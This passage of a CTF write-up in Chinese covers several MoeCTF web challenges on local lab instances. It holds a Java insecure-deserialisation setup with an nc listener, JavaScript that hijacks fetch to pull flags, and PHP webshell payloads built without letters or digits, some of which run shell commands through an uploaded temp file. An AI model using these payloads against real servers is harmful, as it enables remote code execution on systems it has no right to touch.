      return new ArrayList(this.dogs.values());
   }

   public Dog addDog(String name, String breed, int age) {
      Dog dog = new Dog(this.nextId++, name, breed, age);
      this.dogs.put(dog.getId(), dog);
      return dog;
   }

   public Dog feedDog(int id) {
      Dog dog = (Dog)this.dogs.get(id);
      if (dog != null) {
         dog.feed();
      }

      return dog;
   }

   public Dog removeDog(int id) {
      return (Dog)this.dogs.remove(id);
   }

   public Object chainWagTail() {
      Object input = null;

      Object result;
      for(Iterator var2 = this.dogs.values().iterator(); var2.hasNext(); input = result) {
         Dog dog = (Dog)var2.next();
         if (input == null) {
            input = dog.object;
         }

         result = dog.wagTail(input, dog.methodName, dog.paramTypes, dog.args);
      }

      return input;
   }

   public String exportDogsBase64() {
      try {
         ByteArrayOutputStream baos = new ByteArrayOutputStream();
         Throwable var2 = null;

         Object var5;
         try {
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            Throwable var4 = null;

            try {
               oos.writeObject(new ArrayList(this.dogs.values()));
               oos.flush();
               var5 = Base64.getEncoder().encodeToString(baos.toByteArray());
            } catch (Throwable var30) {
               var5 = var30;
               var4 = var30;
               throw var30;
            } finally {
               if (oos != null) {
                  if (var4 != null) {
                     try {
                        oos.close();
                     } catch (Throwable var29) {
                        var4.addSuppressed(var29);
                     }
                  } else {
                     oos.close();
                  }
               }

            }
         } catch (Throwable var32) {
            var2 = var32;
            throw var32;
         } finally {
            if (baos != null) {
               if (var2 != null) {
                  try {
                     baos.close();
                  } catch (Throwable var28) {
                     var2.addSuppressed(var28);
                  }
               } else {
                  baos.close();
               }
            }

         }

         return (String)var5;
      } catch (IOException var34) {
         var34.printStackTrace();
         return "";
      }
   }

   public void importDogsBase64(String base64Data) {
      try {
         ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
         Throwable var3 = null;

         try {
            ObjectInputStream ois = new ObjectInputStream(bais);
            Throwable var5 = null;

            try {
               Collection<Dog> imported = (Collection)ois.readObject();
               Iterator var7 = imported.iterator();

               while(var7.hasNext()) {
                  Dog dog = (Dog)var7.next();
                  dog.setId(this.nextId++);
                  this.dogs.put(dog.getId(), dog);
               }
            } catch (Throwable var32) {
               var5 = var32;
               throw var32;
            } finally {
               if (ois != null) {
                  if (var5 != null) {
                     try {
                        ois.close();
                     } catch (Throwable var31) {
                        var5.addSuppressed(var31);
                     }
                  } else {
                     ois.close();
                  }
               }

            }
         } catch (Throwable var34) {
            var3 = var34;
            throw var34;
         } finally {
            if (bais != null) {
               if (var3 != null) {
                  try {
                     bais.close();
                  } catch (Throwable var30) {
                     var3.addSuppressed(var30);
                  }
               } else {
                  bais.close();
               }
            }

         }
      } catch (ClassNotFoundException | IOException var36) {
         var36.printStackTrace();
      }

   }
}
```

```java
package com.example.demo.Dog;

import java.lang.reflect.Method;

public interface DogModel {
   int getId();

   void setId(int var1);

   String getName();

   String getBreed();

   int getAge();

   void feed();

   default Object wagTail(Object input, String methodName, Class[] paramTypes, Object[] args) {
      try {
         Class cls = input.getClass();
         Method method = cls.getMethod(methodName, paramTypes);
         return method.invoke(input, args);
      } catch (Exception var7) {
         var7.printStackTrace();
         return null;
      }
   }
}
```

`payload`没整出来...

```java

```

```bash
ssh root@127.0.0.1 -p 63886 # 密码是root123
```

```bash
nc -lvnp 8888
```

```powershell
$payload=''
Invoke-WebRequest -Uri 'http://127.0.0.1:63899/dogs/import' -Method Post -Body @{ data = $payload } -ContentType 'application/x-www-form-urlencoded'
```

## Moe笑传之猜猜爆

> 一个简单的...猜数字小游戏？猜错了是不会爆炸的！

直接猜不太现实，我们根据参数和源代码构建`JS`脚本。

```javascript
fetch('/flag', { method: 'POST' })
  .then(res => res.json())
  .then(data => console.log("FLAG:", data.flag));
```

```
moectf{843f9f72-a76b-e401-de07-67020ac10438}
```

## 摸金偶遇FLAG，拼尽全力难战胜

> 你正打着《三〇洲》，刚开一个电脑，但是电脑里显示的内容似乎有点不对劲？

你说得对，但瓦转洲真废了。

短时间内完成不太现实，我们根据参数和源代码构建`JS`脚本。

```javascript
const originalFetch = window.fetch;

window.fetch = async (url, options) => {
  if (url.includes("/get_challenge")) {
    const response = await originalFetch(url, options);
    const data = await response.clone().json();
    
    const verifyResponse = await originalFetch("/verify", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({
        answers: data.numbers,
        token: data.token
      })
    });
    
    const verifyData = await verifyResponse.json();
    if (verifyData.correct) {
      alert("FLAG: " + verifyData.flag);
    }
    
    return response;
  }
  return originalFetch(url, options);
};

document.querySelector("#decipherComputerChallengeStartBTN").click();
```

```
moectf{e56ad1de-0562-9a9a-213f-8da4bd1ad497}
```

## 这是...Webshell？

> 这也不让，那也不让，这我咋做？

[一些不包含数字和字母的webshell | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

原理参考上文，用`hackbar`发送请求：

```
http://127.0.0.1:14333/?shell=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); $___=$$__;$_($___[_]);

value:_=phpinfo();
```

```
moectf{6f88c899-f037-947f-4432-0607658c9b2b}
```

## 这是...Webshell?_revenge

> 这下彻底没得做了...吧？

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

原理参考上文，用`burpsuite`抓包并发送请求：

```
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 127.0.0.1:50230
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTraeCTF
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Length: 165

------WebKitFormBoundaryTraeCTF
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

env
------WebKitFormBoundaryTraeCTF--
```

```
moectf{97583404-f843-e747-6744-e9bc4ff6c536}
```

